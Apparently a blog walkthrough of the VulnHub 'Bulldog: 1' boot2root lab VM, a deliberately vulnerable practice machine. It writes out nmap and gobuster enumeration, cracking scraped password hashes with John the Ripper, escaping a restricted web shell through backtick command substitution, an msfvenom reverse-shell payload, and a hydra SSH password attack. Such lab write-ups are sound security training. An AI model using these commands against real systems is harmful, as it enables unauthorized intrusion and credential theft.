 ```yaml
---
layout: post
last_modified_at: 2018-06-17 15:46:16 +0000
title: "Bulldog: 1 Walkthrough"
category: Walkthrough
tags: [VulnHub, Bulldog]
comments: true
image:
  feature: bulldog-1-walkthrough.jpg
  credit: 984943 / Pixabay
  creditlink: https://pixabay.com/en/beach-playing-bulldogs-1749854/
---
```


This post documents the complete walkthrough of Bulldog: 1, a boot2root [VM][1] created by [Nick Frichette][2], and hosted at [VulnHub][3]. If you are uncomfortable with spoilers, please stop reading now.
{: .notice}

<!--more-->

### Background
Bulldog Industries has its website defaced and gets owned by the malicious German Shepherd Hack Team. Could this mean there are more vulnerabilities to exploit? Why don't you find out? :smile:

### Information Gathering

Let's kick this off with a `nmap` scan to establish the services available in the host.

```
# nmap -n -v -Pn -p- -A --reason -oN nmap.txt 192.168.36.3
...
PORT     STATE SERVICE REASON         VERSION
23/tcp   open  ssh     syn-ack ttl 64 OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 20:8b:fc:9e:d9:2e:28:22:6b:2e:0e:e3:72:c5:bb:52 (RSA)
|_  256 cd:bd:45:d8:5c:e4:8c:b6:91:e5:39:a9:66:cb:d7:98 (ECDSA)
80/tcp   open  http    syn-ack ttl 64 WSGIServer 0.1 (Python 2.7.12)
| http-methods:
|_  Supported Methods: GET HEAD OPTIONS
|_http-server-header: WSGIServer/0.1 Python/2.7.12
|_http-title: Bulldog Industries
8080/tcp open  http    syn-ack ttl 64 WSGIServer 0.1 (Python 2.7.12)
| http-methods:
|_  Supported Methods: GET HEAD OPTIONS
|_http-server-header: WSGIServer/0.1 Python/2.7.12
|_http-title: Bulldog Industries
```

Let's explore the web service first. This is how the site looks like in my browser.

![screenshot-1](/assets/images/posts/bulldog-1-walkthrough/screenshot-1.png)

There's no clue in the HTML source of the landing page as well as its internal link, on how to proceed.

### Directory/File Enumeration

Let's use `gobuster` with `common.txt` from [SecLists][4] to look for directories and/or files.

```
# gobuster -w /usr/share/seclists/Discovery/Web_Content/common.txt -e -u http://192.168.36.3

Gobuster v1.1                OJ Reeves (@TheColonial)
=====================================================
[+] Mode         : dir
[+] Url/Domain   : http://192.168.36.3/
[+] Threads      : 10
[+] Wordlist     : /usr/share/seclists/Discovery/Web_Content/common.txt
[+] Status codes : 204,301,302,307,200
[+] Expanded     : true
=====================================================
http://192.168.36.3/admin (Status: 301)
http://192.168.36.3/dev (Status: 301)
http://192.168.36.3/robots.txt (Status: 200)
=====================================================
```

The `robots.txt` probably doesn't conform to specifications or it'll appear in the `nmap` scan. Now, I've two more directories — `admin` and `dev` to explore.

### Under Development

This page `/dev` contains interesting information. There's a link to `/dev/shell`, I suppose, a web shell. Under the hood of the HTML source, there are SHA1 password-hashes of members from the development team.

![screenshot-2](/assets/images/posts/bulldog-1-walkthrough/screenshot-2.png)

Let's clean up the hashes and send them to John the Ripper for offline cracking.

```
# curl -s 192.168.36.3/dev/ | sed '49,55!d' | awk -F': ' '{ print $2 }' | sed -r -e 's/(<br>)+<!--/:/' -e 's/-->/:::::/' > hashes.txt && john --format=raw-sha1 --wordlist=/usr/share/wordlists/rockyou.txt hashes.txt
...
nick@bulldogindustries.com:bulldog:::::
sarah@bulldogindustries.com:bulldoglover:::::
```

Thank goodness authentication is a must, to use the web shell.

![screenshot-3](/assets/images/posts/bulldog-1-walkthrough/screenshot-3.png)

### Django Site Administration

Let's use one of the credentials (`nick:bulldog`) and see if we can authenticate with the server to use the web shell.

![screenshot-4](/assets/images/posts/bulldog-1-walkthrough/screenshot-4.png)

![screenshot-5](/assets/images/posts/bulldog-1-walkthrough/screenshot-5.png)

I have a session with the site. Now, are we able to use the web shell by going to `/dev/shell`?

![screenshot-6](/assets/images/posts/bulldog-1-walkthrough/screenshot-6.png)

Sweet. The web shell appears to restrict itself to certain commands.

### Command Substitution

One of my favorite features in `bash` is [command substitution][5] using backtick (`).

> "Bash performs the expansion by executing command in a subshell environment and replacing the command substitution with the standard output of the command, with any trailing newlines deleted."

![screenshot-7](/assets/images/posts/bulldog-1-walkthrough/screenshot-7.png)

### Low Privilege Shell

Let's transfer (using `wget`) a single-stage reverse shell payload and then run a reverse shell back. I can do that with `msfvenom` and Metasploit multi-handler.

```
# msfvenom -p linux/x86/shell_reverse_tcp LHOST=192.168.36.4 LPORT=443 -f elf -o bulldog
```

![screenshot-8](/assets/images/posts/bulldog-1-walkthrough/screenshot-8.png)

![screenshot-9](/assets/images/posts/bulldog-1-walkthrough/screenshot-9.png)

![screenshot-10](/assets/images/posts/bulldog-1-walkthrough/screenshot-10.png)

Although a low-privilege shell appears, let's spawn a pseudo-TTY for better output control.

![screenshot-11](/assets/images/posts/bulldog-1-walkthrough/screenshot-11.png)

### Privilege Escalation

I find two users — `django` and `bulldogadmin`, during enumeration. They can `sudo` as `root`. It's a pity I don't have their passwords.

![screenshot-12](/assets/images/posts/bulldog-1-walkthrough/screenshot-12.png)

![screenshot-13](/assets/images/posts/bulldog-1-walkthrough/screenshot-13.png)

![screenshot-14](/assets/images/posts/bulldog-1-walkthrough/screenshot-14.png)

Notice `.hiddenadmindirectory` in the home directory of `bulldogadmin`?

![screenshot-15](/assets/images/posts/bulldog-1-walkthrough/screenshot-15.png)

![screenshot-16](/assets/images/posts/bulldog-1-walkthrough/screenshot-16.png)

![screenshot-17](/assets/images/posts/bulldog-1-walkthrough/screenshot-17.png)

Seems like reverse engineering the ELF binary is my ticket to `root`.

### What the ELF?

The first thing to do in reverse engineering is to look for interesting strings and that's what I did.

![screenshot-18](/assets/images/posts/bulldog-1-walkthrough/screenshot-18.png)

If you look past the "`H`", you see "`SUPERultimatePASSWORDyouCANTget`". I'll have my work cut short if this is the password belonging to any of the users, since they can `sudo` to `root`. Let's find out with `hydra`.

```
# cat users.txt
bulldogadmin
django
root

# hydra -L users.txt -p SUPERultimatePASSWORDyouCANTget -s 23 ssh://192.168.36.3
[23][ssh] host: 192.168.36.3   login: django   password: SUPERultimatePASSWORDyouCANTget
1 of 1 target successfully completed, 1 valid password found
```

![screenshot-19](/assets/images/posts/bulldog-1-walkthrough/screenshot-19.png)

It's done.

![screenshot-20](/assets/images/posts/bulldog-1-walkthrough/screenshot-20.png)

:dancer:

### Afterthought

If I have to guess, I say the other way to get root is perhaps through the Dirty CoW exploit as hinted in the notice page.

![screenshot-21](/assets/images/posts/bulldog-1-walkthrough/screenshot-21.png)

To an attacker, a shell is a shell is a shell. :imp:

[1]: https://www.vulnhub.com/entry/bulldog-1,211/
[2]: https://twitter.com/@frichette_n
[3]: https://www.vulnhub.com
[4]: https://github.com/danielmiessler/SecLists
[5]: https://www.gnu.org/s/bash/manual/html_node/Command-Substitution.html
